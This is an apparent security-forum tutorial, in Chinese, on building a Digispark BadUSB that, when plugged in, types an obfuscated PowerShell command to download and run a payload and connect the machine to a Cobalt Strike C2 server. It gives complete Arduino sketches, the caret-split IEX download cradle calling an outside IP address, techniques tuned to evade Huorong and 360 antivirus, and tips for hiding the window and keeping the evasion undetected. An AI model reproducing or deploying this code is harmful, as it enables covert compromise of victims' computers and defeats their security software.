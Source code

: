 

# BadUsb 实现免杀及插及上线 C2 服务器 - 先知社区

BadUsb 实现免杀及插及上线 C2 服务器

- - -

# 0x01 准备阶段

1.  购买 BadUsb，我购买的是 Digispark。

[![](assets/1708095554-d22a0cbbac01476d5c53e3b0340682c2.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20230505153939-fdb3b88a-eb17-1.jpg)

1.  安装 Arduino IDE
    
2.  配置 Arduino IDE，添加开发板，安装驱动。
    
    参考链接：[https://www.jianshu.com/p/b33d61fc2678](https://www.jianshu.com/p/b33d61fc2678)
    
3.  掌握 Digispark 编程语法。（语法较简单，可以边查边写）
    

至此，BadUsb 和开发环境均已配置完毕，可以开始编写代码。

# 0x02 编写代码

编写代码前，我们首先要了解 BadUsb 的大致原理，本质上就是插入电脑后可以模拟键盘输入，既然是模拟键盘输入，我们可以先写出一个大致的代码框架。

```plain
#include "DigiKeyboard.h"
#define MOD_SHIFT_LEFT      (1<<1)
#define MOD_CONTROL_LEFT    (1<<0)
#define KEY_ENTER   40
#define KEY_CAPS_LOCK 0x39

void setup() {
DigiKeyboard.delay(2000);
DigiKeyboard.sendKeyStroke(0);
DigiKeyboard.delay(2000);
DigiKeyboard.sendKeyStroke(KEY_R,MOD_GUI_LEFT); //win+r
DigiKeyboard.delay(500);
DigiKeyboard.print(F("cmd")); //输入 cmd
DigiKeyboard.delay(500);
DigiKeyboard.sendKeyStroke(KEY_ENTER); //回车
DigiKeyboard.delay(500);
//后面输入恶意代码
}

void loop() {
}
```

这段代码先声明了一些键盘按键代表的字符，然后通过键盘唤起 CMD。其中插入 BadUsb 后间隔 2 秒开始执行程序，每次输入字符后都间隔 0.5s。

代码框架编写完成后，就可以开始构造我们的免杀恶意代码了。

要想通过键盘输入上线的我们的 C2 服务器，有 2 种思路。通过 powershell 命令上线 或 通过命令行文件下载恶意文件上线。

1.  文件下载上线
    
    考虑到免杀问题，certutil 这些常见的命令几乎被所有杀软拦截，网上公开的绕过方法（例如双写 certutil）可以绕过火绒，但 360 无法绕过。
    
    文件成功下载后，恶意文件的免杀也具有一定局限性，所以如果考虑免杀，那么通过文件下载这种模式来实现 BadUsb 上线存在很大难度。
    
2.  powershell 命令上线
    

​ powershell 上线也分两种方式

​ (1) 通过 ps1 文件上线

[![](assets/1708095554-a649146c99d7c1debecf3649e911d53c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230505154010-10582822-eb18-1.png)

ps1 文件免杀效果好，Github 有很多针对 ps1 文件的免杀项目，可以轻松绕过国内主流杀软。

[![](assets/1708095554-30b116c9ad964c4e97b9d50f58e21488.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230505154043-241c5a0e-eb18-1.png)

但 ps1 文件庞大的代码量又带来了一个问题，在我们编写完成代码框架后，使用 Arduino IDE 进行编译，提示“当前已使用了 45% 的存储空间”，而如果我们将 ps1 文件中的全部代码编译，则会存在闪存空间不足的问题。

[![](assets/1708095554-31913b0c669d8a66426b95cf94fa63c0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230505154108-331f3dc8-eb18-1.png)

[![](assets/1708095554-3d3f1a0aef98939f56f236ff0f398efe.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230505154126-3d87bbc8-eb18-1.png)

有 2 种办法解决这个问题，使用钞能力购买闪存更大的开发板，或精简我们的 ps1 文件内容。至此通过 ps1 文件上线这个思路也在这里断了。

​ (2) 通过 web 服务上线

[![](assets/1708095554-2f3100be051f3fcd14bf32e1b6bd1c43.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230505154154-4e262e6a-eb18-1.png)

通过这种方法生成的 payload 较为精简，不存在闪存不足的问题，只需要针对性的做一下免杀即可。

这里给出我免杀的方法，设置别名+^字符间隔 + 加号拼接字符串。

```plain
cmd /c echo set-alias -name xz -value IEX;x^z (New-Object "NeT.WeBClienT").d^o^w^n^l^o^a^d^s^t^r^i^n^g('ht'+'tP://19'+'2.168.1.1'+'/a') | p^o^w^e^r^s^h^e^l^l -
```

这里没有添加后台运行 powershell 的参数，因为 hidden 参数会影响免杀效果，这样的运行方式实测可以绕过火绒和 360。

那么代码就算是初步完成了，如下。

```plain
#include "DigiKeyboard.h"
#define MOD_SHIFT_LEFT      (1<<1)
#define MOD_CONTROL_LEFT    (1<<0)
#define KEY_ENTER   40
#define KEY_CAPS_LOCK 0x39

void setup() {
DigiKeyboard.delay(2000);
DigiKeyboard.sendKeyStroke(0);
DigiKeyboard.delay(2000);
DigiKeyboard.sendKeyStroke(KEY_R,MOD_GUI_LEFT); //win+r
DigiKeyboard.delay(500);

// powershell 上线 免杀火绒 360 窗口不隐藏  需要点鼠标杀软放行
DigiKeyboard.print(F("cmd")); //输入 cmd
DigiKeyboard.delay(500);
DigiKeyboard.sendKeyStroke(KEY_ENTER); //回车
DigiKeyboard.delay(500);
DigiKeyboard.print(F("cmd /c echo set-alias -name xz -value IEX;x^z (New-Object "NeT.WeBClienT").d^o^w^n^l^o^a^d^s^t^r^i^n^g('ht'+'tP://19'+'2.168.1.1'+'/a') | p^o^w^e^r^s^h^e^l^l -")); //POWERSHELL 上线
DigiKeyboard.delay(500);
DigiKeyboard.sendKeyStroke(KEY_ENTER); //回车
}

void loop() {
}
```

# 0x03 代码优化

将写好的代码编译并烧录进 BadUsb 后，其实效果并没有那么理想，有如下几个问题：

1、部分电脑存在默认中文输入法，在模拟键盘输入的过程中会存在中文输入，未达到预期输入的内容

解决方案：开始模拟键盘输入前锁定大小写，相应的我们的免杀代码也要做出对应的大小写修改。

```plain
DigiKeyboard.sendKeyStroke(KEY_CAPS_LOCK); //锁定大小写，防止默认中文输入法

DigiKeyboard.print(F("cmd /c echo set-alias -name xz -value IEX;x^z (New-Object \"NeT.WeBClienT\").d^o^w^n^l^o^a^d^s^t^r^i^n^g('ht'+'tP://19'+'2.168.1.1'+'/A’) | p^o^w^e^r^s^h^e^l^l -")); //POWERSHELL 上线 路径大小写都要有 a A
```

2、powershell 运行完毕后，桌面留下一个黑框非常显眼。

解决方案：模拟键盘输入 wind+d 返回桌面隐藏 cmd 黑框，上线 cs 后立即迁移进程即可。

最终优化后的代码如下

```plain
#include "DigiKeyboard.h"
#define MOD_SHIFT_LEFT      (1<<1)
#define MOD_CONTROL_LEFT    (1<<0)
#define KEY_ENTER   40
#define KEY_CAPS_LOCK 0x39

void setup() {
DigiKeyboard.delay(2000);
DigiKeyboard.sendKeyStroke(0);
DigiKeyboard.delay(2000);
DigiKeyboard.sendKeyStroke(KEY_R,MOD_GUI_LEFT); //win+r
DigiKeyboard.delay(500);
DigiKeyboard.sendKeyStroke(KEY_CAPS_LOCK); //锁定大小写，防止默认中文输入法
DigiKeyboard.delay(500);

// powershell 上线 免杀火绒 360 窗口不隐藏  需要点鼠标杀软放行
DigiKeyboard.print(F("cmd")); //输入 cmd
DigiKeyboard.delay(500);
DigiKeyboard.sendKeyStroke(KEY_ENTER); //回车
DigiKeyboard.delay(500);
DigiKeyboard.print(F("cmd /c echo set-alias -name xz -value IEX;x^z (New-Object \"NeT.WeBClienT\").d^o^w^n^l^o^a^d^s^t^r^i^n^g('ht'+'tP://4'+'3.138.111.78'+'/A') | p^o^w^e^r^s^h^e^l^l -")); //POWERSHELL 上线 路径大小写都要有 a A
DigiKeyboard.delay(500);
DigiKeyboard.sendKeyStroke(KEY_ENTER); //回车
DigiKeyboard.delay(500);
DigiKeyboard.sendKeyStroke(KEY_D,MOD_GUI_LEFT); //win+d
}

void loop() {
}
```

至此，实现了免杀火绒 360 BadUsb 即插即上线 CS。

# 0x04 结语

这篇文章是在我能力范围之内想出的 BadUsb 免杀上线的思路，希望能给各位师傅提供思路，如果师傅有更为新颖高效的思路也欢迎交流。

同时免杀不易，请珍惜当前可用的免杀方式，不要放在微步、VT 等平台检测免杀效果。

最后附上参考链接：

[https://www.jianshu.com/p/b33d61fc2678](https://www.jianshu.com/p/b33d61fc2678)

[https://lzy-wi.github.io/2018IAMHUAPIDAN!/06/12/badusb/](https://lzy-wi.github.io/2018/06/12/badusb/)

[https://www.cnblogs.com/binglicheng/p/11615535.html](https://www.cnblogs.com/binglicheng/p/11615535.html)

[https://blog.csdn.net/qq\_34341458/article/details/123368269](https://blog.csdn.net/qq_34341458/article/details/123368269)

[https://blog.csdn.net/weixin\_52444045/article/details/126432290](https://blog.csdn.net/weixin_52444045/article/details/126432290)
